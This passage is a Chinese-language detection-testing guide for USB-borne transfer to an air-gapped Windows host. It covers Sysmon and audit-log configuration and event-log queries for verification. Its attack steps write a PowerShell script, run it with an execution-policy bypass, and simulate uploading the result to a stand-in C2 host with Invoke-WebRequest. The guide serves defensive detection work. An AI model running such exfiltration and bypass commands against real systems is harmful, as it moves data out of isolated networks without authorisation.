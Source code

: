 **配置日志记录**  
- 启用文件访问审核：`计算机配置 > 策略 > Windows设置 > 安全设置 > 高级审核策略配置 > 对象访问 > 审核文件系统 > 成功/失败`。  
- 启用Sysmon配置：监控可移动媒体路径（如`E:\`）的文件和进程活动：
  ```xml
  <RuleGroup name="FileCreate" groupRelation="and">
    <FileCreate onmatch="include">
      <TargetFilename condition="contains">E:\</TargetFilename>
    </FileCreate>
  </RuleGroup>
  ```
- 启用设备插入日志：`计算机配置 > 管理模板 > 系统 > 设备安装 > 启用设备安装事件日志`。

## 测试复现

### 环境准备
- **靶机**：两台Windows 10/11主机（一台联网，一台断网）。  
- **权限**：用户权限（某些操作如禁用U盘需管理员）。  
- **工具**：U盘、`powershell.exe`（系统自带）、Sysmon、USB监控工具（如USBLogView）。  
- **日志**：启用Windows安全日志、Sysmon日志、设备管理日志。  

### 攻击步骤
1. **准备U盘**（联网主机）  
   - 创建恶意脚本：
     ```powershell
     Set-Content -Path "E:\malicious.ps1" -Value "whoami > E:\result.txt"
     ```

2. **传播到断网主机**  
   - 插入U盘至断网主机，执行脚本：
     ```powershell
     powershell.exe -ExecutionPolicy Bypass -File E:\malicious.ps1
     ```

3. **回传结果**  
   - 将U盘插回联网主机，查看结果：
     ```powershell
     Get-Content E:\result.txt
     ```
   - 模拟上传至C2：
     ```powershell
     Invoke-WebRequest -Uri "http://c2.example.com/upload" -Method Post -InFile E:\result.txt
     ```

4. **验证结果**  
   - 检查Sysmon日志（文件创建）：
     ```powershell
     Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 11 -and $_.Message -match "E:\\" }
     ```
   - 检查进程创建：
     ```powershell
     Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 1 -and $_.Message -match "powershell.exe" }
     ```
   - 检查设备插入：
     ```powershell
     Get-WinEvent -LogName "Microsoft-Windows-Kernel-PnP/Configuration" | Where-Object { $_.Id -eq 20001 }
     ```
